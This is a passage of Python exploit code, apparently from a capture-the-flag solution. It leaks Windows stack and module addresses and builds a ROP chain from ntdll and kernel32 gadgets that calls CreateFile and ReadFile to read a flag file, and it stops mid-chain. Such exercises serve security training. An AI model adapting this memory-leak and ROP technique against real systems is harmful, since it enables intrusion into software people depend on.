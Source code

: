 ```python
stack_base = read_absolute(p, teb+8)
print(f"[+] Found stack: {hex(stack_base)}")

# Find the return address we want to overwrite.
# Note: Slow on server :(
main_ret_addr = 0
main_ret = 0
offset = 0
for i in range(0x100, 0x1000, 0x100):
    if read_absolute(p, stack_base-i) != 0:
        offset = i
        main_ret_addr = stack_base-i
        break
for i in range(0x0, offset, 0x8):
    main_ret_addr += 0x8
    main_ret = read_absolute(p, main_ret_addr)
    if main_ret == bin_base+0x22f4:
        break
print(f"[+] Found ret addr to overwrite ({hex(main_ret_addr)}): {hex(main_ret)}")
read_ret_addr = main_ret_addr - 0xf0

# Buffer for flag file and flag itself
allocate(p, 3, 0x1000)              # 8 - buffer for strings and such
set_value(p, 8, 0x900, "C:\MichaelStorage\\flag.txt")
buf_offset = 0x600a0
buf = leaked_string & 0xfffffffffff00000 | buf_offset
print(f"[+] Buf address: {hex(buf)}")

# Build ROP chain
pop_rcx = ntdll_base + 0x8dd2f          # pop rcx; ret;
pop_rdx = kernel32_base + 0x24d92       # pop rdx; ret;
pop_r8  = ntdll_base + 0x69d3           # pop r8; ret;
pop_r9  = ntdll_base + 0x8b6e4          # pop r9; pop r10; pop r11; ret;
push_rax = kernel32_base + 0x019d23     # push rax; ret;
xchg_eax_ecx = ntdll_base + 0x65b0b     # xchg eax, ecx; ret;
create_file = kernel32_base + 0x24b50
read_file = kernel32_base + 0x24ee0
print(f"[+] CreateFile: {hex(create_file)}")

rop_chain = (p64(pop_rcx)+p64(buf)+
    p64(pop_rdx)+p64(0x80000000)+
    p64(pop_r8)+p64(0x0)+
    p64(pop_r8)+p64(0x0)+
    p64(pop_r8)+p64(0x1)+
    p64(pop_r9)+p64(0)+p64(0)+p64(0)+
    p64(create_file)+
    p64(pop_r9)+
    p64(0)+
    p64(0)+
    p64(0)+
    p64(pop_r9)+
    p64(3)+
    p64(0x128)+
    p64(0)+
    p64(pop_rcx)+
    p64(0)+
    p64(xchg_eax_ecx)+
    p64(pop_rdx)+
    p64(buf)+
    p64(pop_r8)+
    p64(0x100)+
    p64(pop_r9)+
    p64(0x0)+
```